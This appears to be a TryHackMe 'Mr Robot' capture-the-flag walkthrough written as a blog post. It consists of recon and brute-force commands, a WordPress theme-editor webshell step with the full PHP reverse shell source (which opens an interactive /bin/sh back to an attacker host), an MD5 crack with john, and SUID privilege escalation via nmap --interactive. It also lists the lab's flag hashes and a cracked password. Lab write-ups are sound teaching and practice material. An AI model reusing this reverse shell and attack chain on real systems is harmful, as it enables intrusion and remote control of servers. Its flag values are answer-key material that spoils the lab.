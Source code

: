 ```yaml
---
layout: post
title: mr robots
date: 2021-04-09
categories: [tryhackme, Medium]
tags: [gobuster, code-analysis, Exploit] # add tag
image: /assets/img/mr.robot/mrrobot.jpg
---
```


|Machine|Detail
|:---|:--
|Release date | 12 Sep 2020
|OS | Linux
|Rating | Medium
|Creator | [Ben](https://tryhackme.com/p/ben)

nmap -sC -sV ip -T5

gobuster dir -u ip -w /usr/share/wordlists/dirb/common.txt

ip mechine/key-1-of-3.txt ```[ 073403c8a58a1f80d943455fb30724b9 ]```

wc -l fsocity.dic

sort fsocity.dic | uniq > fsocity-sorted.dic

wc -l fsocity-sorted.dic

open browser ```<ip mechine>/wp-admin```

wpscan --url <ip mechine> --wp-content-dir wp-admin --usernames elliot --passwords ~/Downloads/fsocity-sorted.dic

http://ip mechine/wp-admin/theme-editor.php?file=archive.php&theme=twentyfifteen&scrollto=3409
	
# shell backdoor

```bash

<?php
See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '<ip mechine>';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  
   1 => array("pipe", "w"),  
   2 => array("pipe", "w")   
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>

```

### nc -nlvp 1234

http://ip mechine/wp-content/themes/twentyfifteen/archive.php

### sukses

cat password.raw-md5

john hash.txt --wordlist=~/Downloads/fsocity.dic --format=RAW-MD5

```python -c 'import pty; pty.spawn("/bin/bash")'```

su robot

password : ```abcdefghijklmnopqrstuvwxyz```

cat ~/key-2-of-3.txt ```[ 822c73956184f694993bede3eb39f959 ]```

```find / -perm /4000 -print 2>/dev/null```

nmap --interactive

use command ```!sh``` 

